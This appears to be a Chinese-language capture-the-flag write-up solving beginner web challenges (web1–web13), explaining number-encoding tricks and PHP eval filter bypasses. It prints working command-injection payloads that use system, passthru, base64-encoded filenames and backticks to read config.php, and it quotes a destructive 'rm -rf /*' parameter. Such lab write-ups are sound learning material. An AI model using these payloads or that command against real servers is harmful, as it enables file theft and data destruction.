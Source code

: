 ## 2022-3-13 萌新区
### web1
![image](https://user-images.githubusercontent.com/44671805/158057441-fe61a684-2db2-496e-800a-a77adb9b486f.png)
- 点进靶场看了一下源代码，大致意思说可以接受get传参，flag在id=1000的传参界面，但是代码里会判断id的值,如果直接输入1000则会触发id>999，引发错误。
一开始没有思路，看了下别人的WP，说可以使用十六进制，将1000转成16进制试了一下果然可以了
也可以先传一个id=100再加 or id=1000

![image](https://user-images.githubusercontent.com/44671805/158057557-78eca79c-b16a-46fc-a8d8-dad0e8cb546f.png)

### web2
![image](https://user-images.githubusercontent.com/44671805/158057903-7e06112f-17ef-40d0-9a67-4a765f4306e6.png)
可以看出第二关过滤了or，但是可以利用取反~，两次取反还是1000
![image](https://user-images.githubusercontent.com/44671805/158057961-862fbdc2-c24d-4d0d-9249-b46077d1f32b.png)

### web3
第三关同样没有过滤~，和第二关一样
![image](https://user-images.githubusercontent.com/44671805/158058098-a5d3b603-5266-4fe6-be6c-953099c72b2d.png)

### web4
第四关同理

### web5
第五关同理

### web6
第六关同理

### web7
第七关过滤了很多，但是可以将1000转成二进制，?id=0b1111101000
![image](https://user-images.githubusercontent.com/44671805/158058404-b57c6e12-8380-4427-a513-575bb5679956.png)

### web8
不太懂...大佬们是怎么把这个和这个梗联系起来的 ?flag=rm -rf /*

## 2022-3-17
### web9
![image](https://user-images.githubusercontent.com/44671805/158771656-a3675348-bfd5-4bf1-aa89-cce81d785ddc.png)
?c=highlight_file('config.php');
![image](https://user-images.githubusercontent.com/44671805/158772860-48863ad4-dcbb-4e38-ad12-a1fb184176a5.png)

### web10
可以看出，web10代码里说传参不能包含这几个函数
![image](https://user-images.githubusercontent.com/44671805/158773620-58f548b9-0b2c-45db-abc3-b1373f8e0503.png)
?c=$a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
也可以用passthru代码绕过
?c=passthru('tac config.php');
passthru和system基本相同
![image](https://user-images.githubusercontent.com/44671805/158776734-f0f52c75-0919-41c5-9794-5a9eed0c035f.png)
![image](https://user-images.githubusercontent.com/44671805/158777498-42d5aaaf-5d45-4af9-abd4-866a2479ec88.png)

### web11
果然11题是用passthru绕过的
![image](https://user-images.githubusercontent.com/44671805/158779193-0c3f0f7d-06f3-4a2d-95f2-5e04d8cc88a9.png)

### web12
![image](https://user-images.githubusercontent.com/44671805/158780013-96abf560-49ee-4ef4-800b-bb2120ce3339.png)
分析代码，看出又过滤了一些函数。代码里说的是，如果不包含这些敏感函数，就eval($c)，eval是php里面一个能将接收到的传参当作代码执行的函数。先看下当前目录有什么
![image](https://user-images.githubusercontent.com/44671805/158780329-f9e60358-92ba-4bba-8580-27bee05d0312.png)
可以看出config.php就在当前目录下
因为正则里面说不能输入config，这里可以把名字以base64加密
![image](https://user-images.githubusercontent.com/44671805/158782032-a66f6634-cc72-4c02-b1d0-22d684c2c22c.png)
构造payload：?c=$a=base64_decode('Y29uZmlnLnBocA==');$b=passthru("tac $a");

### web13
源码中过滤了参数中的 system exec highlight cat . ; file php config 等关键字, 这里可以使用 passthru()函数 配合反引号\`\` 来执行系统命令, **针对分号;的过滤, 我们可以使用 ?> 代替分号**, 首先查看当前目录下的文件
?c=passthru("more \`ls | grep con*\`")?>

```反引号``会将其中的内容当做系统命令来执行, 并返回一个字符串类型的变量用来保存执行结果, 下面的payload会先执行 `ls | grep con*`, 在将结果作为文件名供 more命令查询, 也就是 more config.php```


